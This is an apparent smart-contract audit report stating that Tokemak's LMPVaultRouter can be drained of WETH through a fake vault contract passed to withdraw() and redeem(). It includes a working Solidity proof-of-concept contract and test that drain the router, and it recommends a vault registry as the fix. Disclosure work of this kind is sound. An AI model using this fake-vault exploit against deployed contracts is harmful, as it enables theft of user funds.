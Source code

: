 Striped Crepe Hippo

high

# LMPVaultRouter can be drained of WETH tokens.
## Summary
`withdraw()` and `redeem()` functions send WETH to a user-controlled address after calling withdraw or redeem function of a vault which is a user-controlled contract. The user might make a fake vault and pass true to `unwrapWETH` to gain all the WETH deposited in the router.

## Vulnerability Detail
There is no checking if the vault address provided is a vault or a fake., which leads to loss of WETH.

## Impact
Router is drained of WETH.

## Code Snippet
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L73-L90
https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/vault/LMPVaultRouterBase.sol#L93-L109

## PoC
```solidity
contract hackit {
    function withdraw(uint a, address b, address c) public returns(uint256){
        return 22;
    }

    function redeem(uint a, address b, address c) public returns(uint256){
        return 44;
    }
}

function testMineFirst() public{
       
        hackit h=new hackit();

        assertEq(address(0x111).balance,0);

        deal(WETH_MAINNET,address(lmpVaultRouter),10e18);
        lmpVaultRouter.redeem(ILMPVault(address(h)),address(0x111),33,33,true);

        assertEq(address(0x111).balance,10e18);

        deal(WETH_MAINNET,address(lmpVaultRouter),10e18);
        lmpVaultRouter.withdraw(ILMPVault(address(h)),address(0x111),33,33,true);
       
        assertEq(address(0x111).balance,20e18);
    }
```
Paste this contract and test in LMPVaultRouter.t.sol for testing the exploit.
## Tool used

Manual Review

## Recommendation
Introduce a way to identify the vault such a mapping vault=>bool.